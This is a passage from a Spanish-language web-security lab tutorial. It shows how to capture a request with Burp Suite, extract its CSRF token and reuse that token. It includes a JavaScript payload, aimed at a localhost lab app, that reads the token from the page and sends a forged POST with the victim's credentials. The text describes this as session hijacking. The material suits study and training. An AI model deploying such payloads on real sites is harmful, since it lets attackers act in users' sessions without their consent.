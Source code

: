 **Explicación:**  Se muestran tanto los headers HTTP como el cuerpo de la solicitud. El cuerpo contiene los parámetros enviados, entre los cuales:
    
 `title`, `subtitle` y `text` son datos de la publicación.
    
 `_csrf_token` es el valor crítico que permite validar la sesión en el servidor.>     
    

---

## Datos Relevantes para los Scripts

Al analizar la solicitud interceptada se identifican varios parámetros importantes:

- **_csrf_token:**  
    El token CSRF es fundamental para la validación de solicitudes en el servidor. Su valor en este ejemplo es:
    
    ```plaintext
    49985ee0-7392-4539-a815-62a3f3455579
    ```
    
- **Otras variables (ejemplo):**  
    Aunque en este ejemplo se usan `title`, `subtitle` y `text` para la creación del post, el foco en la explotación suele ser el extraer el `_csrf_token` para poder replicar o modificar la solicitud.



> **Uso en los scripts:**  
> Una vez interceptado y extraído el token, se incorpora al script para simular la petición legítima del usuario. Por ejemplo, en el script para secuestrar sesión se puede utilizar el token de la siguiente manera:


```javascript
> var domain = "http://localhost:10007/newgossip";
> var req1 = new XMLHttpRequest();
> req1.open('GET', domain, false);
> req1.withCredentials = true;
> req1.send();
> 
> var response = req1.responseText;
> var parser = new DOMParser();
> var doc = parser.parseFromString(response, 'text/html');
> var token = doc.getElementsByName("_csrf_token")[0].value;
> 
> var req2 = new XMLHttpRequest();
> var data = "title=prueba+burpsuite&subtitle=burpsuite&text=prueba&_csrf_token=" + token;
> req2.open('POST', 'http://localhost:10007/newgossip', false);
> req2.withCredentials = true;
> req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
> req2.send(data);
```


> 
> **Resumen:**
> 
> - Usa Burp Suite para interceptar la solicitud POST.
>     
> - Identifica y copia el valor del campo `_csrf_token`.
>     
> - Emplea este valor en tus scripts de inyección o secuestro de sesión para simular una petición válida del usuario.
>     

---